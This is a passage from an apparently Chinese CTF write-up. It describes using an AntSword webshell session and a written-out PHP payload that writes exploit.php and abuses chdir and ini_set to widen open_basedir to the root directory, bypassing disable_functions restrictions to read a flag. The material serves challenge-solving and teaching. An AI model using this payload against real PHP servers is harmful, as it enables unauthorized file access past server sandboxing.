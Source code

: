 ![5-3.png](5-3.png)

连上后回显 `ret=127`, 说明极有可能限制了 php 函数; 不过用蚁剑的文件管理功能已经能读到 flag 了

![5-4.png](5-4.png)

### 突破 disable_function 限制

> 之前这道题里已经遇到过一次: [[SUCTF 2019] easyweb](https://r4x.top/2025/07/20/SUCTF2019-easyweb/#%E7%AA%81%E7%A0%B4-PHP-disable-functions-%E9%99%90%E5%88%B6)

可以直接按照上面这个方法在根目录建一个 bypass.php, 或者也可以在 POST 中加入写文件指令:

```php
# _=
file_put_contents('exploit.php', "<?php
mkdir('test'); 
chdir('test'); 
ini_set('open_basedir','..');
chdir('..'); chdir('..'); chdir('..'); chdir('..');
ini_set('open_basedir','/');
echo file_get_contents('flag');
?>");
# 然后 URL 编码
```

> 再写一遍, 这个利用的原理就是写入一个 exploit.php 文件, 然后将 `open_basedir` 改为 `..`, 注意, 这是一个相对路径, 所以 `chdir('..')` 会一直成功, 直到穿到根目录, 最后 `ini_set('open_basedir','/');` 成功直接把访问范围扩大到根目录。

执行完毕后访问这个 php 文件, 即可读出 flag:

![5-5.png](5-5.png)
